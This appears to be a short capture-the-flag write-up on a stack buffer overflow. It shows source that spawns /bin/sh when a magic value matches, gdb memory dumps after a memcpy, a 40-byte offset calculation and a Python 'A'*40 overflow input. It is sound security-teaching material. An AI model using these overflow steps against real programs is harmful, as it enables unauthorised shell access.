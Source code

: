 ```
if (number == 0x574f4c46) 
    execl("/bin/sh", "sh", 0);
```
```
run "8" "AAAA"

   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
=> 0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)

the return of memcpy

0xbffff6b0:	..........	0x41414141	...[1]....	...[2]....
0xbffff6c0:	...[3]....	...[4]....	...[5]....	...[6]....
0xbffff6d0:	...[7]....	...[8]....	...[9]....	0x00000008

the var we compar with located at:

(gdb) x $esp+0x3c
0xbffff6dc:	0x00000008

p/d 0xbffff6dc - 0xbffff6b4 = 40

run "9" $(python -c 'print "A" * 40')

36 is the maximum number of bytes that can be copied into the buffer (9 * 4).


```

The "memcpy" function is vulnerable to buffer overflow attacks if the size of the destination buffer is smaller than the size of the source buffer. 










